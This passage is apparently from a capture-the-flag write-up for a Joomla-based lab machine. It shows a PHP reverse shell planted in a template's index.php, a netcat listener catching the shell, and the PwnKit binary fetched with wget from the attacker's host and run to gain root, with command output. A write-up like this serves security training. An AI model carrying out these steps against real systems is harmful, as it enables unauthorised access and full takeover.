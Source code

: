 Let's login to Joomla using the credentials ```jonah``` and ```spiderman123```.

Upon navigating to the templates section and clicking on templates, we can see the templates that are being used. In each template, we can see some php files. Let's try to get a php reverse shell using those. Navigate to index.php file in protostar template and replace the code with the following php code.

>https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

Make sure to change the ip address in the php file.

Start the netcat listener and navigate to main website that's being hosted on port 80.

```
┌──(root㉿kali)-[~/tools]
└─# nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.6.10.164] from (UNKNOWN) [10.10.59.64] 48864
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 01:46:50 up 34 min,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$ 
```

We get a foothold on the machine.

# Privilege Escalation

## Method 1

Use the PwnKit exploit to get root privileges.

>https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit

Download the binary to host machine and serve it using python http web server. Then download the binary to the target machine's /tmp directory, change the permissions to executable and run it.

```
python -m http.server
```

```
sh-4.2$ wget http://10.6.10.164:8000/PwnKit
wget http://10.6.10.164:8000/PwnKit
--2023-03-20 02:01:32--  http://10.6.10.164:8000/PwnKit
Connecting to 10.6.10.164:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 18040 (18K) [application/octet-stream]
Saving to: 'PwnKit'

100%[======================================>] 18,040      --.-K/s   in 0.09s   

2023-03-20 02:01:32 (189 KB/s) - 'PwnKit' saved [18040/18040]

sh-4.2$ chmod +x PwnKit
chmod +x PwnKit
sh-4.2$ ./PwnKit
./PwnKit
[root@dailybugle tmp]# id
id
uid=0(root) gid=0(root) groups=0(root),48(apache)
[root@dailybugle tmp]# 
```
